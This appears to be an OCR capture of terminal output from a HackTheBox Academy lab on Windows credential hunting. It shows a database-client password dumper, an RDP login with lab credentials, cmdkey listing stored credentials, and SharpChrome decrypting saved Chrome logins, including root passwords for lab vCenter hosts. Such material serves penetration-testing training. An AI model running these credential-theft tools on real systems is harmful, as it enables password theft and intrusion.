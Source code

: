 ------------------- Dbvis passwords -----------------

[+] Password found !!!
Name: SQL01.inlanefreight.local
Driver:
          SQL Server (Microsoft JDBC Driver)

Host: localhost
Login: sa
Password: S3cret_db_p@ssw0rd!
Port: 1433


[+] 2 passwords have been found.
For more information launch it again with the -v option

xfreerdp /v:10.129.43.43 /u:htb-student /p:HTB_@cademy_stdnt!

C:\Users\htb-student>cmdkey /list

Currently stored credentials:

    Target: Domain:target=WEB01
    Type: Domain Password
    User: amanda

PS C:\Tools> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.11.1


[*] Action: Chrome Saved Logins Triage


[*] Triaging Chrome Logins for current user


[*] AES state key file : C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : D72790F4972C4D5700D8D2ED50D21850A3429373534ED938EB009219A51A0479

[X] Error : 0

---  Credential (Path: C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc.inlanefreight.local/,https://vc
.inlanefreight.local/ui/login,5/26/2021 12:09:51 PM,13266529791618996,root,"?U?1`?l}?????A
?"
C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data,http://vc01.inlanefreight.local:443/,http:
//vc01.inlanefreight.local:443/login.html,8/7/2021 6:33:01 PM,13272859981246714,root,ILVCadm1n1qazZAQ!
